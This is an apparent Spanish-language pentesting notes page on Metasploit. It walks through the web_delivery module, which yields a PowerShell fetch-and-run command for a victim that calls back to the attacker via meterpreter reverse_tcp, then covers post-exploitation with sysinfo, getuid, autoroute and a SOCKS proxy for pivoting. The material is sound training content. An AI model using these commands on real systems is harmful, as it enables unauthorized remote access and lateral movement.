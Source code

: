 ```yaml
---
Herramienta: 💣 Metasploit
Comando: msfconsole
Categoría: Explotación y post-explotación
SO: Multiplataforma
tags:
  - explotación
  - post-explotación
  - c2
  - pentesting
  - herramienta
---
```


## Descripción

**Metasploit** es un framework de pruebas de penetración ampliamente utilizado que permite descubrir, explotar y manejar vulnerabilidades en sistemas informáticos. Es una herramienta modular que incluye exploits, payloads y herramientas de post-explotación para escenarios reales y pruebas de laboratorio.

## Características clave

- **Framework modular**: Incluye miles de exploits, payloads y módulos auxiliares.
- **Post-explotación**: Herramientas avanzadas para mantener acceso y extraer información.
- **Pruebas de seguridad**: Ideal para pruebas de penetración en redes y aplicaciones.
- **Multiplataforma**: Funciona en Windows, Linux y macOS.

## Ejemplo de uso

### Ejemplo 1

Vamos a seguir el ejemplo 1 de Powershell empire

Ejecuta la consola de Metasploit:

```bash
msfconsole

#Para buscar un determinado módulo podemos usar el comando search

search web_delivery

#En este caso vamos a utilizar el modulo web_delivery. Para mostras las opciones podemos utilizar el comando show options

show options
set target 2

#Hemos puesto el target 2 ya que vamos a atacar a un powershell. También vamos a tener que cambiar la ip para que apunte la conexión hacia nuestro sistema

Set LHOST ip
Set SRVHOST ip

#Ambas ips han de ser la de nuestro ordenador como pone en las instrucciones del modulo.

set payload windows/meterpreter/reverse_tcp

#Este cambio de payload (generalmente es automatico) nos permite especificar la sesión.

exploit

#Esto nos dará el comando a ejecutar en el host victima para conectarnos

sessions

#Con este comando vemos las sesiones actuales

sessions x

#Con este comando nos conectamos a una sesion
```

**Después del ejemplo 1 de powershell empire**:

Parece que tras la ejecución del payload generado por metasploit tenemos una sesión de meterpreter, a partir de aquí hay varios comandos que podemos utilizar.

```cmd
sysinfo

#nos proporciona información del sistema

getuid

#nos porporciona información del usuario actual, con ctrl + z podemos dejar la sesion en background y vamos a pobrar otro modulo

search autoroute
set SESSION 1
run

#Esto nos permite crear una ruta con el host victima (en la sesión que tenemos creada).

use auxiliary/server/socks_proxy
set SRVHOST ip #nuestra
run

#Este modulo nos permite vincular nuestro navegador al suyo y hay que cambiar el proxy en el navegador y poner nuestra ip y el puerto vinculado al del modulo y ya simplemente con poner el dominio o ip victima deberíamos ver el puerto 8080 de ese servidor
```

